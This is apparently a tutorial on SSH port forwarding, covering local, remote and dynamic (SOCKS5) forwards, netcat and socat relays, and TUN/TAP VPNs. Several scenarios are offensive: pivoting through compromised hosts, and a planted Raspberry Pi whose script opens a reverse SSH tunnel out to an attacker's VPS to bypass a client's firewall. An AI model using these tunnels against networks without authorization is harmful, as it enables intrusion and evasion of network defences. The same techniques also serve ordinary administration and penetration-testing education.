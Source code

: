 # Why?

A hacker must be dynamic and must learn how to adapt to the situation he is put in. Network environments can be diverse. They can be permissive, and navigation is easy around them. In reality though, many corporate networks are complex and often restrictive, with a variety of firewalls in place between different network segments.

A key tool in the toolbelt a hacker has is `ssh`. It is pretty much guaranteed to exist on every operating system, and once a login has been found to a server, it is critical for attackers to be able to pivot across a network.

Not only as a hacker, but as a systems administrator, or developer port forwarding is quite helpful. From a "poor man's vpn" that allows you to access your home network, to reaching services inside of NATs, or taking remote resources and exposing them locally, `ssh` is a versatile tool which can do it all.

Let's walk through some common scenarios.

# Local Port Forward

With a local port forward, you're concerned with making remote content available locally. You will see a few examples down below.

## Scenario 1

Let's say, you compromise as machine that exposes an admin interface to `localhost:8000` only. You would be unable to reach this service under normal circumstances because you are coming from an external ip. Sure, you could execute commands from the compromised host, but most likely your toolkit will not exist there (and if it did, you should be concerned). You want to use your own tooling to gain access. How can we do that? By creating a local forward.

```bash
ssh target -L 8000:localhost:8000
```

So, what did we just do? We opened port `8000` on our local machine. This connection will be bound to the socket `localhost:8000`, which is executed on `target`. This will allow us to access the admin interface in our browser by navigating to `http://localhost:8000`.

## Scenario 2

For security reasons, you don't allow your home router to be configured from the public internet. You must be logged in from your home network in order to access it, but you don't have a VPN set up. However, you do have access to a jump host machine which is located on the network which can reach the router page. Let's set up a forward to the router.

```bash
ssh jump -L 8443:192.168.1.1:443
```

Now, we created an open port `8443` on our local machine bound to our router's internal ip address at `192.168.1.1` and port  `443`. In your browser, connect to `https://localhost:8443`. Now you can manage your machines from outside of the home!

## Scenario 3

Man, this Minecraft server I found in a pwned network would be fun to play on with my friends, but unfortunately it's not open to the public. Or, is it?

```bash
ssh pwned -L 0.0.0.0:25565:minecraft.server:25565
```

Now, we've opened up the port `25565` on our machine so that it's visible to anyone via `0.0.0.0`. This means, anyone who can directly connect to ports on our machine will be able to connect to the Minecraft server. Now, you can your friends can troll to your hearts desire (but don't steal their diamonds to make hoes, okay?)

# Remote Port Forward

Remote port forwards allow you to take local content and make it available on the remote.

## Scenario 1

You've about to perform a physical penetration test on a customer site. You know they have a pretty locked down external environment, but the word is they think that their firewall means they don't need any internal security controls. I mean, they can't get in, so how would they even hack us? You know that they only allow encrypted web traffic to the external internet. Maybe they don't have a firewall with deep packet inspection, and are just checking the port number?

In preparation, you acquire a public cloud instance and configure your `ssh` port to port `443`. Next, you create a Raspberry pi which when powered on will run a script with the following line:
```bash
ssh my_vps -R 2222:localhost:22
```

You perform the penetration test and successfully plant the device on the customer network. Now, you head back home and log into your VPS to find port `2222` now has a connection. It sends you to port `22` on the Raspberry Pi you set up which is inside the customer network. Now, you can access all of their internal machines!

## Scenario 2

After you had your fun trolling in the hacked Minecraft server, you've reformed your ways and decide to set one up yourself. However, you don't want to expose the IP address of your house where you run it. Thankfully, there is a low-latency VPS instance you can connect to.

You grab your terminal, and run the following command:
```bash
ssh my_vps -R 0.0.0.0:25565:192.168.1.5:25565
```

You just opened up port `25565` to the world to access on your VPS instance, and it will be routed over to your local Minecraft server running at `192.168.1.5:25565`. Now, nobody will find out your IP, and you get to play with friends!

# Dynamic Forwards

In the previous sections, we saw that though there is much flexibility in creating tunnels with both directions. However, we were limited to one socket pair. What if we could bypass that and open all all ports to go through? Actually, you can! You can have `ssh` set up a SOCKS5 proxy for you. But... with a caveat. It will only work for TCP traffic. It is not possible to forward UDP ports with the built in `ssh` SOCKS5 proxy.

This ability is incredibly useful to bypass firewalls and pivot across a network. It's also commonly known as the "poor man's vpn" because no additional configuration is necessary except for `ssh` access to a server on the network you'd like to connect to things.

## Scenario 1

Let's look back to Scenario 2 from the local forwarding section. It's great that we can now connect to our router, but what about other services on our network such as our Minecraft server?

Let's alter the command to extend its functionality:
```bash
ssh jump -D 1080 
```

What did we just do? We opened a SOCKS5 proxy on our client machine's port `1080`. Now, any SOCKS5 compatible client can forward traffic through our `jump` server to reach internal services. For a browser, this is usually done in the settings, or by using an extension like FoxyProxy. Many applications also allow for SOCKS5 configuration.

However, our Minecraft client doesn't allow for SOCKS in this specific case. How can we overcome it?
```bash
mkfifo /tmp/f; cat /tmp/f | nc -klvp 25565 | nc -x localHost:1080 -X 5 192.168.1.5 25565 > /tmp/f; rm /tmp/f
```

Wait, what is that? That uses netcat to create a listening port on `25565` and pipes the output to the input of a netcat connection using the SOCKS5 proxy we created earlier to connect to out Minecraft server. Now, the output of that connection is redirected to a pipe which is being read and put into the input of the listening port.

In short, you simply opened a new port `25565` on your local host to connect to your Minecraft server.

Or, we can do it in a simpler manner using `socat`.
```bash
socat TCP-LISTEN:25565,bind,reuseaddr,fork SOCKS5-CONNECT:localhost:1080:192.168.1.5:25565
```

## Scenario 2

In the previous section we mentioned a physical penetration test. Though it's great we can execute commands from our Raspberry Pi, wouldn't it be more useful to route arbitrary IP addresses over it from our local machine? With a few commands you can!

```bash
ssh localhost -p 2222 -J my_vps -D 1080
```

Here, we jump through the VPS to connect to `localhost:2222`. Now, we create an open port on `1080` to route through the raspberry pi.

Once again, we can route any arbitrary traffic we would like over this connection just as in the previous scenario.

# VPNs

Who needs a poor man's vpn, when we can actually create a real one? However, keep in mind this has a limitation. It is a non-standard setting and will require root access on the remote host as well as the client. In many situations, this is not possible. However, it opens up the ability for full forwarding of Layer 3 traffic in TUN mode. This includes ICMP (ping), TCP, and UDP. Or, you can even forward Layer 2 traffic in TAP mode. Keep in mind this will likely be pretty slow, but when it's needed man is this helpful!
